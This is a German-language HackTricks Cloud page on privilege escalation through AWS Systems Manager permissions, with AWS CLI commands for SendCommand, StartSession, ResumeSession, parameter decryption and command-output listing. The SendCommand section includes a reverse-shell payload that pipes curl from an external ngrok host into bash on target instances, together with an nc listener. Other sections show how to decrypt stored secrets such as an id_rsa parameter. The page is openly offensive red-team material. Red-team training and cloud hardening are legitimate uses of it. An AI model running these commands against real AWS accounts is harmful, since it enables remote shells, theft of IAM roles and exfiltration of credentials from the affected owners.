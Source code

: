 # AWS - SSM Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## SSM

Für weitere Informationen zu SSM siehe:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Ein Angreifer mit der Berechtigung **`ssm:SendCommand`** kann **Befehle in Instanzen ausführen**, die den Amazon SSM-Agenten ausführen, und **die IAM-Rolle** kompromittieren, die darin läuft.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
Falls Sie diese Technik verwenden, um Privilegien innerhalb einer bereits kompromittierten EC2-Instanz zu eskalieren, könnten Sie einfach die rev shell lokal erfassen mit:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM-Agenten angehängt sind.

### `ssm:StartSession`

Ein Angreifer mit der Berechtigung **`ssm:StartSession`** kann **eine SSH-ähnliche Sitzung in Instanzen** starten, die den Amazon SSM-Agenten ausführen, und **die IAM-Rolle** kompromittieren, die darin ausgeführt wird.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Um eine Sitzung zu starten, benötigen Sie das **SessionManagerPlugin** installiert: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM-Agenten angehängt sind.

#### Privilegieneskalation zu ECS

Wenn **ECS-Aufgaben** mit **`ExecuteCommand` aktiviert** ausgeführt werden, können Benutzer mit ausreichenden Berechtigungen `ecs execute-command` verwenden, um **einen Befehl** innerhalb des Containers auszuführen.\
Laut [**der Dokumentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) geschieht dies durch die Erstellung eines sicheren Kanals zwischen dem Gerät, das Sie verwenden, um den „_exec_“-Befehl zu initiieren, und dem Zielcontainer mit SSM Session Manager. (SSM Session Manager Plugin ist notwendig, damit dies funktioniert)\
Daher werden Benutzer mit `ssm:StartSession` in der Lage sein, **eine Shell innerhalb von ECS-Aufgaben** mit dieser Option aktiviert zu erhalten, indem sie einfach Folgendes ausführen:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den `ECS` IAM-Rollen, die an laufende Aufgaben mit aktiviertem `ExecuteCommand` angehängt sind.

### `ssm:ResumeSession`

Ein Angreifer mit der Berechtigung **`ssm:ResumeSession`** kann eine **SSH-ähnliche Sitzung in Instanzen** neu **starten**, die den Amazon SSM-Agenten mit einem **getrennten** SSM-Sitzungsstatus ausführen und die **IAM-Rolle** kompromittieren, die darin läuft.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potenzielle Auswirkungen:** Direkte Privilegieneskalation zu den EC2 IAM-Rollen, die an laufende Instanzen mit SSM-Agenten und getrennten Sitzungen angehängt sind.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Ein Angreifer mit den genannten Berechtigungen wird in der Lage sein, die **SSM-Parameter** aufzulisten und **diese im Klartext zu lesen**. In diesen Parametern findet man häufig **sensible Informationen** wie SSH-Schlüssel oder API-Schlüssel.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potenzielle Auswirkungen:** Finden Sie sensible Informationen in den Parametern.

### `ssm:ListCommands`

Ein Angreifer mit dieser Berechtigung kann alle **Befehle** auflisten, die gesendet wurden, und hoffentlich **sensible Informationen** darin finden.
```
aws ssm list-commands
```
**Potenzielle Auswirkungen:** Finde sensible Informationen in den Befehlszeilen.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Ein Angreifer mit diesen Berechtigungen kann alle **Befehle** auflisten, die gesendet wurden, und **die Ausgabe** lesen, in der Hoffnung, **sensible Informationen** darin zu finden.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potenzielle Auswirkungen:** Finden Sie sensible Informationen im Output der Befehlszeilen.

### Codebuild

Sie können SSM auch verwenden, um in ein Codebuild-Projekt einzudringen, das gerade erstellt wird:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
